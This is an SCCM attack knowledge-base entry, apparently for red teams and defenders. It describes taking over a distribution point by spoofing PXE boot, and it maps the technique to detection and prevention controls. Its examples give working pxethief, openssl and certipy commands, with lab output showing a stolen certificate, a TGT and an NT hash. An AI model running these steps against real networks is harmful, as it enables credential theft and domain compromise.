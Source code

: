 ```yaml
---
title: 'ELEVATE-4'
description: 'Distribution Point Takeover via PXE Boot Spoofing'
source: 'subat0mik/Misconfiguration-Manager'
---
```


## MITRE ATT&CK Tactics
- [TA0008](https://attack.mitre.org/tactics/TA0008) - Lateral Movement
- [TA0004](https://attack.mitre.org/tactics/TA0004) - Privilege Escalation

## Requirements
- Local network access
- Line of sight to PXE-enabled distribution point
- PKI client authentication certificates are used for communication with the PXE-enabled distribution point

## Optional Requirement
- Line of sight to a DHCP server (required if a distribution point hasn't been previously discovered)

## Summary
SCCM sites may optionally be configured to support public-key infrastructure (PKI) certificates for secure communications. For deployments with internet-based site systems, PKI certificates are required. When deployed, the distribution point (DP) role requires it's PKI certificate to support client authentication and for the private key to be exportable. The certificate is used by the DP to support communication with HTTPS enabled management points. For PXE-enabled distribution points, the certificate is sent to and used by client computers to authenticate to management points during operating system deployment. For environments that leverage Microsoft's PKI solution Active Directory Certificate Services (AD CS), the certificate generated for the DP role may be used to authenticate as the DP's host AD machine account. An attacker who is able to successfully spoof PXE boot deployment and extract the PKI certificate from the PXE boot variables file contents may gain control of the certificate's AD identity.

## Impact
 The impact of recovery is environment dependent. At a minimuim, based on Microsoft's [documentation](https://learn.microsoft.com/en-us/intune/configmgr/core/plan-design/network/pki-certificate-requirements#site-systems-that-have-a-distribution-point-installed) an attacker that recovers this certificate can impersonate a DP's AD identity and compromise the host system. 

## Defensive IDs
- [DETECT-7: Monitor read access to the SMSTemp directory](../../../defense-techniques/DETECT/DETECT-7/detect-7_description)
- [PREVENT-6: Configure a strong PXE boot password](../../../defense-techniques/PREVENT/PREVENT-6/prevent-6_description)
- [PREVENT-21: Restrict PXE boot to authorized VLANs](../../../defense-techniques/PREVENT/PREVENT-21/prevent-21_description)

## Examples

1. On the attacker server, spoof the PXE boot process with pxethief.py with option 2 to recover the PKI certificate distributed by the targeted DP. A suitable Distribution Point can be identified using [RECON-2](../../RECON/RECON-2/recon-2_description). Otherwise, a PXE boot server may be discovered via a PXE DHCP discover broadcast using pxethief's option 1. 

```

┌──(PXEThief)─(root㉿sccm-kali)-[/home/kali/PXEThief]
└─# python3 pxethief.py 2 10.3.10.12

 ________  ___    ___ _______  _________  ___  ___  ___  _______   ________
|\   __  \|\  \  /  /|\  ___ \|\___   ___\\  \|\  \|\  \|\  ___ \ |\  _____\
\ \  \|\  \ \  \/  / | \   __/\|___ \  \_\ \  \\\  \ \  \ \   __/|\ \  \__/
 \ \   ____\ \    / / \ \  \_|/__  \ \  \ \ \   __  \ \  \ \  \_|/_\ \   __\
  \ \  \___|/     \/   \ \  \_|\ \  \ \  \ \ \  \ \  \ \  \ \  \_|\ \ \  \_|
   \ \__\  /  /\   \    \ \_______\  \ \__\ \ \__\ \__\ \__\ \_______\ \__\
    \|__| /__/ /\ __\    \|_______|   \|__|  \|__|\|__|\|__|\|_______|\|__|
          |__|/ \|__|

[+] Generating and downloading encrypted media variables file from MECM server located at 10.3.10.12
[+] Using interface: eth0 - eth0
[+] Targeting user-specified host: 10.3.10.12
[+] Asking ConfigMgr for location to download the media variables and BCD files...
Finished sending 1 packets
Received 1 packets, got 1 answers, remaining 0 packets

[!] Variables File Location: \SMSTemp\2025.06.04.15.34.55.0001.{3221FD8C-81AB-441A-B57F-E3A3D10B2AD4}.boot.var
[!] BCD File Location: \SMSTemp\2025.06.04.15.34.54.04.{3221FD8C-81AB-441A-B57F-E3A3D10B2AD4}.boot.bcd
[!] Blank password on PXE boot found!
[!] Attempting automatic exploitation.
[+] Media variables file to decrypt: 2025.06.04.15.34.55.0001.{3221FD8C-81AB-441A-B57F-E3A3D10B2AD4}.boot.var
[+] Password bytes provided: 0xeaffc0ff3300b8ffbaff6d004a00daffbfffb6ff
[+] Successfully decrypted media variables file with the provided password!
[!] Writing media variables to variables.xml
[!] Writing _SMSTSMediaPFX to 123_affba0f7-65c6-4743-99b0-99af62d_SMSTSMediaPFX.pfx. Certificate password is affba0f7-65c6-4743-99b0-99af62d

```
2. Inspect the certificate with openssl to confirm it's an AD CS certificate and contains the client authentication EKU

```
┌──(PXEThief)─(root㉿sccm-kali)-[/home/kali/PXEThief]
└─$ openssl pkcs12 \
-in 123_affba0f7-65c6-4743-99b0-99af62d_SMSTSMediaPFX.pfx \
-passin pass:affba0f7-65c6-4743-99b0-99af62d \
-nokeys -clcerts | openssl x509 -text -certopt no_pubkey,no_sigdump -noout
Certificate:
    Data:
        Version: 3 (0x2)
        Serial Number:
            34:00:00:00:03:cd:a2:70:1a:ec:40:dc:17:00:00:00:00:00:03
        Signature Algorithm: sha256WithRSAEncryption
        Issuer: DC=domain, DC=ludus, CN=ludus-CA
        Validity
            Not Before: Jun  4 19:21:29 2025 GMT
            Not After : Jun  4 19:21:29 2026 GMT
        Subject:
        X509v3 extensions:
            Microsoft certificate template:
                0-.%+.....7.........z..$...#...cb..........d...
            X509v3 Extended Key Usage:
                TLS Web Client Authentication
            X509v3 Key Usage: critical
                Digital Signature, Key Encipherment
            Microsoft Application Policies Extension:
                0.0
..+.......
            X509v3 Subject Key Identifier:
                16:40:8E:22:CF:A9:E8:21:FC:9B:2D:7C:73:90:F5:90:60:8A:89:73
            X509v3 Authority Key Identifier:
                7A:D3:15:84:7A:FD:48:F2:C0:33:D1:BE:5E:62:57:AD:2F:53:EA:C8
            X509v3 CRL Distribution Points:
                Full Name:
                  URI:ldap:///CN=ludus-CA,CN=DC01,CN=CDP,CN=Public%20Key%20Services,CN=Services,CN=Configuration,DC=ludus,DC=domain?certificateRevocationList?base?objectClass=cRLDistributionPoint

            Authority Information Access:
                CA Issuers - URI:ldap:///CN=ludus-CA,CN=AIA,CN=Public%20Key%20Services,CN=Services,CN=Configuration,DC=ludus,DC=domain?cACertificate?base?objectClass=certificationAuthority
            X509v3 Subject Alternative Name: critical
                DNS:sccm-sitesrv.ludus.domain
```

3. Use certipy to authenticate on behalf of the recovered certificate's identity.


```
┌──(Certipy)─(root㉿sccm-kali)-[/home/kali/Certipy]
└─# certipy auth -pfx ../PXEThief/123_affba0f7-65c6-4743-99b0-99af62d_SMSTSMediaPFX.pfx -password affba0f7-65c6-4743-99b0-99af62d -dc-ip 10.3.10.10
Certipy v5.0.2 - by Oliver Lyak (ly4k)

[*] Certificate identities:
[*]     SAN DNS Host Name: 'sccm-sitesrv.ludus.domain'
[*] Using principal: 'sccm-sitesrv$@ludus.domain'
[*] Trying to get TGT...
[*] Got TGT
[*] Saving credential cache to 'sccm-sitesrv.ccache'
[*] Wrote credential cache to 'sccm-sitesrv.ccache'
[*] Trying to retrieve NT hash for 'sccm-sitesrv$'
[*] Got hash for 'sccm-sitesrv$@ludus.domain': aad3b435b51404eeaad3b435b51404ee:56c99bd025fb48dea2ea4cdeee878af1
```

## References
- Christopher Panayi, [pxethief](https://github.com/MWR-CyberSec/PXEThief)
- Christopher Panayi, [Identifying and retrieving credentials from SCCM/MECM Task Sequences](https://www.mwrcybersec.com/research_items/identifying-and-retrieving-credentials-from-sccm-mecm-task-sequences)
- CRED-1, [Retrieve secrets from PXE boot media](../../CRED/CRED-1/cred-1_description)
- Microsoft, [PKI certificate requirements for Configuration Manager](https://learn.microsoft.com/en-us/intune/configmgr/core/plan-design/network/pki-certificate-requirements#site-systems-that-have-a-distribution-point-installed)
- onSec-fr, [Got pfx from server with client auth](https://github.com/MWR-CyberSec/PXEThief/issues/8)
